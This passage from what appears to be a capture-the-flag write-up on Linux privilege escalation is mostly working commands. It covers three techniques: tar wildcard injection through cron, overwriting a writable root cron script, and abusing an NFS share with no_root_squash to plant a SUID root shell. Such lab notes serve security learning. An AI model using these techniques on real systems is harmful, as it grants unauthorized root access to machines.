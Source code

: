 ```bash
cat /etc/crontab 
# * * * * * root /usr/local/bin/compress.sh
cat /usr/local/bin/compress.sh 
# #!/bin/sh
# cd /home/user
# tar czf /tmp/backup.tar.gz *
```

```
echo 'cp /bin/bash /tmp/bash2; chmod +s /tmp/bash2' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
/tmp/bash2 -p
```

#### Reference

{% embed url="https://blog.csdn.net/qq_33958714/article/details/111084322" %}

## Task 18 Cron (File Overwrite)

```bash
cat /etc/crontab 
# * * * * * root overwrite.sh
ls -l /usr/local/bin/overwrite.sh
# -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
echo 'cp /bin/bash /tmp/bash3; chmod +s /tmp/bash3' > /usr/local/bin/overwrite.sh
/tmp/bash3 -p
```

## Task 19 NFS Root Squashing

```bash
cat /etc/exports
# /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

```bash
showmount -e 10.10.24.41                                                                                                         130 ⨯
# /tmp *
mkdir /tmp/1
sudo mount -o rw,vers=2 10.10.24.41:/tmp /tmp/1
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/1/x.c
gcc -o /tmp/1/x /tmp/1/x.c
sudo chown root:root /tmp/1/x
sudo chmod +s /tmp/1/x
```

```
/tmp/x
```
